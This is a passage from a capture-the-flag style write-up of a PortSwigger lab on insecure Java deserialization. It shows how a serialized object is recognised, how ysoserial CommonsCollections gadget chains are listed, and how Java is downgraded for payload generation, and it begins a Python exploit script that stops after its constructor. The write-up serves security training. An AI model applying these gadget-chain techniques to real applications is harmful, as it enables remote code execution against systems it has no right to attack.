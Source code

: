 ```
```

**In here, we see it's a Java serialized object, as the first 2 bytes are `ac ed`.**

**Now, we can use a tool called `ysoserial` to build gadget chains.**

- Download `ysoserial` jar from GitHub [repository](https://github.com/frohoff/ysoserial/):

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# java -jar /opt/ysoserial/ysoserial-all.jar   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
Jan 10, 2023 7:55:53 AM org.reflections.Reflections scan
INFO: Reflections took 94 ms to scan 1 urls, producing 18 keys and 153 values 
     Payload             Authors                                Dependencies           
     -------             -------                                ------------           
[...]                                                                                  
     CommonsCollections1 @frohoff                               commons-collections:3.1
     CommonsCollections2 @frohoff                               commons-collections4:4.0
     CommonsCollections3 @frohoff                               commons-collections:3.1
     CommonsCollections4 @frohoff                               commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
[...]
```

Since in the lab background says the web application uses Apache Commons Collections library, so we're only focusing on `CommonsCollections` payloads.

> Note: If you have "Error while generating or serializing payload" error message, change your Java version <= 12, as Java >=12 does not allow access to private fields of certain sensitive classes.

**Switch Java to version 11:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# export JAVA_HOME="/usr/lib/jvm/java-11-openjdk-amd64"
                                                                                                           
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# export PATH="${JAVA_HOME}/bin:{$PATH}"               
                                                                                                           
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# java --version                                                    
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.17 2022-10-18
OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
```

**To automate things, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
import subprocess
from re import search
from base64 import b64encode
from urllib.parse import quote
import argparse
import os

class exploit():
    def __init__(self, jarPath, payload, command):
        self.jarPath = jarPath
        self.payload = payload
```